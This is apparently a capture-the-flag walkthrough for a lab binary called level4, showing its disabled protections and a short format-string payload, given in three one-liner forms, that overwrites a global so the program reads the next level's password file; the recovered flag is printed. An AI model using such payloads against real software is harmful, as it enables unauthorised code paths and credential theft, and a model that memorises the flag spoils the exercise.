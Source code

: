 # level4

## Header

```bash
ssh level4@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

<hr>

## Solution

The main principle is the same as in the [level3](./../level3/walkthrough.md), but `m` here should be equal to `0x1025544`  (`16930116` in decimal), so we just need to make a huge padding... 

As the program will call `system("/bin/cat /home/user/level5/.pass")`, we don't need to keep stdin opened, and that makes solution even more simple:

```bash
echo -n $'\x10\x98\x04\x08%16930112c%12$n' | ./level4
# or
printf '\x10\x98\x04\x08%%16930112c%%12$n' | ./level4
# or
python -c 'print "\x10\x98\x04\x08%16930112c%12$n"' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## References
- [OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)